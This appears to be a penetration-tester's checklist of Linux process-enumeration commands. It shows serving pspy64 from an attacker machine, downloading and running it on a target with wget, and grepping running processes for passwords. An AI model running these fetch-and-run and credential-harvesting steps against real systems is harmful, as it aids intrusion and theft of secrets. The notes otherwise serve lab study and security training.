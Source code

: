 # Enumerating Processes

## pspy
- [ ] Serve `pspy64` on your Kali Machine
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python3 -m http.server 80
```

- [ ] Download `pspy64` and snoop on processes on the Target Machine
```bash
wget http://192.168.xxx.xxx/pspy64
chmod a+x ./pspy64
./pspy64
```
- Able to catch secrets as arguments on the command line

## Bash
List open files
```
lsof -i
```

- [ ] List running processes on Linux on the Target Machine
```bash
ps aux
```

Getting a list of processes running as root on Linux on the Target Machine
```bash
ps auxf | grep -i 'root' --color=auto
```

- [ ] Refresh output of a command for monitoring on the Target Machine E.g., `ps`
```bash
watch -n 1 "ps -aux"
```
```bash
watch -n 1 "ps -aux | grep pass"
```
- Possible to harvest active processes for credentials

- [ ] Inspect process credentials on the Target Machine E.g., `passwd`
```bash
ps u -C passwd
```

- [ ] Inspect the real UID and effective UID assigned for the process by inspecting the proc pseudo-filesystem on the Target Machine
```bash
grep Uid /proc/1969/status
```
```bash
cat /proc/1337/status | grep Uid
```
